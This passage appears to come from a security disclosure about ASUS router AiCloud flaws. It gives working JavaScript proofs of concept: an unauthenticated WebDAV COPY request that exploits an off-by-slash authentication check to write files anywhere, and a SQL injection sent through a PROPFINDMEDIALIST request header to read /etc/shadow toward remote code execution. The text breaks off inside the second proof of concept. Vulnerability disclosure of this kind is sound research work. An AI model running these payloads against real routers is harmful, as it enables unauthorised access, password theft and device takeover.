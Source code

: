 Create a directory structure as such. 

```
/mnt
  /etc
    passwd
```

Run the below JavaScript. 

```javascript
fetch("/RT-AC68U", { 
  "headers": {
    "overwrite": "T",
    "destination": "https://domain.tld/",
  },
  "body": "",
  "method": "COPY",
});
```

#### Analysis

The authentication handler has an off-by-slash error, matching for `/RT-AC68U/` instead of `/RT-AC68U`. Thus, it allows unauthenticated requests to `/RT-AC68U` to hit the endpoint (note that adding a slash results in a 401). This allows an attacker to perform a copy operation from `/mnt` to `/`, exploiting a similar vulnerability as in `MOVE/COPY Clobbering`. By creating a fake directory structure with `MOVE/COPY Priming`, these two vulnerabilities give an attacker a write-anywhere primitive. 

#### Mitigation
1. Ensure the authentication handler filters requests against `/RT-AC68U` instead of `/RT-AC68U/`. 

### PROPFINDMEDIALIST SQL Injection

No user-interaction arbitrary file-read. By reading `/etc/shadow`, an unauthorized remote attacker can disclose a hashed password. Cracking this offline gives the router password. Can be combined with `MOVE/COPY Clobbering` for a full no-interaction RCE chain. 

#### POC

You will need to enable the Digital Media Server functionality. 

Run the below javascript, for example in the dev console, while on the AiCloud page. 

```javascript
(async() => {
var author = "" + Math.random();
var path = "/etc/shadow";
var dId = Math.floor(100000 * Math.random()) + 10000
var oId = Math.floor(100000 * Math.random()) + 10000
var pId = Math.floor(100000 * Math.random()) + 10000
var val = ("a' OR 1 ); INSERT INTO DETAILS (TITLE, ALBUM_ART, ARTIST, ID) VALUES ('a', '" + pId + "', '" + author + "', " + dId + "); -- ").split("'").join("%27")
console.log(val.length)

await fetch("/smb", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

val = ("a' OR 1 ); INSERT INTO OBJECTS (PARENT_ID, OBJECT_ID, DETAIL_ID, CLASS) VALUES ('1$7', " + oId + ", " + dId + ", 'container.album.musicAlbum'); -- ").split("'").join("%27")
```
